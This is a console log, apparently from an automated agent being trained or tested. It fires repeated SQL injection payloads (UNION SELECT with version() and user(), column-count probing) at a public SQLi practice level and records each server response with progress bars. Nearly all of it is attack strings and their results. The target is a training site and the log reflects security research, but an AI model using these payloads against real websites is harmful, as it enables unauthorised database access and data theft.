 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server respo

  0%|          | 2713/1000000 [15:03:46<15683:50:38, 56.62s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select

  0%|          | 2714/1000000 [15:04:02<12361:29:40, 44.62s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2715/1000000 [15:04:03<8718:27:01, 31.47s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2716/1000000 [15:04:04<6172:03:27, 22.28s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?

  0%|          | 2717/1000000 [15:04:22<5804:29:43, 20.95s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2718/1000000 [15:04:23<4125:16:39, 14.89s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2719/1000000 [15:04:24<2960:36:45, 10.69s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2720/1000000 [15:04:24<2142:41:16,  7.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 2721/1000000 [15:04:26<1634:21:26,  5.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2722/1000000 [15:04:27<1211:32:23,  4.37s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2723/1000000 [15:04:28<919:47:47,  3.32s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user()

  0%|          | 2724/1000000 [15:05:22<5178:39:03, 18.69s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2725/1000000 [15:05:23<3689:06:52, 13.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2726/1000000 [15:05:24<2647:30:49,  9.56s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2727/1000000 [15:05:25<1916:11:23,  6.92s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' 

  0%|          | 2728/1000000 [15:06:13<5396:32:16, 19.48s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2729/1000000 [15:06:14<3844:12:44, 13.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
http

  0%|          | 2730/1000000 [15:08:13<12593:22:33, 45.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2731/1000000 [15:08:14<8848:33:03, 31.94s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 2732/1000000 [15:08:15<6320:04:10, 22.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Que

  0%|          | 2733/1000000 [15:08:37<6201:46:03, 22.39s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2734/1000000 [15:08:38<4419:45:17, 15.95s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2735/1000000 [15:08:38<3157:11:49, 11.40s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2736/1000000 [15:08:39<2271:04:55,  8.20s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2737/1000000 [15:08:40<1658:10:43,  5.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2738/1000000 [15:08:41<1232:16:13,  4.45s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Sy

  0%|          | 2739/1000000 [15:09:15<3677:16:10, 13.27s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2740/1000000 [15:09:15<2639:59:45,  9.53s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2741/1000000 [15:09:16<1920:08:19,  6.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2742/1000000 [15:09:17<1407:14:48,  5.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2743/1000000 [15:09:19<1136:02:14,  4.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2744/1000000 [15:09:21<955:14:26,  3.45s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3

  0%|          | 2745/1000000 [15:11:05<9311:05:29, 33.61s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2746/1000000 [15:11:06<6582:21:44, 23.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2747/1000000 [15:11:07<4737:01:52, 17.10s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2748/1000000 [15:11:08<3382:04:07, 12.21s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2749/1000000 [15:11:09<2438:32:48,  8.80s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2750/1000000 [15:11:10<1775:16:50,  6.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2751/1000000 [15:11:10<1305:33:48,  4.71s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2752/1000000 [15:11:11<991:46:05,  3.58s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Serv

  0%|          | 2753/1000000 [15:12:25<6786:45:20, 24.50s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2754/1000000 [15:12:26<4879:21:52, 17.61s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2755/1000000 [15:12:27<3484:52:21, 12.58s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2756/1000000 [15:12:28<2503:20:41,  9.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response i

  0%|          | 2757/1000000 [15:14:58<14208:30:47, 51.29s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2758/1000000 [15:14:58<10015:00:30, 36.15s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is

  0%|          | 2759/1000000 [15:15:52<11437:25:50, 41.29s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax er

  0%|          | 2760/1000000 [15:16:07<9254:27:39, 33.41s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server

  0%|          | 2761/1000000 [15:16:29<8323:57:49, 30.05s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2762/1000000 [15:16:30<5920:51:11, 21.37s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2763/1000000 [15:16:35<4545:02:36, 16.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2764/1000000 [15:16:36<3245:10:39, 11.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2765/1000000 [15:16:36<2307:22:26,  8.33s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3


  0%|          | 2766/1000000 [15:17:10<4451:21:43, 16.07s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2767/1000000 [15:17:11<3184:58:09, 11.50s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4,5--
https://zixem.altervista.org

  0%|          | 2768/1000000 [15:17:45<5067:46:09, 18.29s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2769/1000000 [15:17:46<3615:44:55, 13.05s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2770/1000000 [15:17:47<2598:13:03,  9.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 2771/1000000 [15:17:49<2016:23:52,  7.28s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2772/1000000 [15:17:50<1471:38:52,  5.31s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server

  0%|          | 2773/1000000 [15:18:47<5775:31:34, 20.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 2774/1000000 [15:18:50<4278:48:16, 15.45s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,v

  0%|          | 2775/1000000 [15:19:04<4131:46:45, 14.92s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
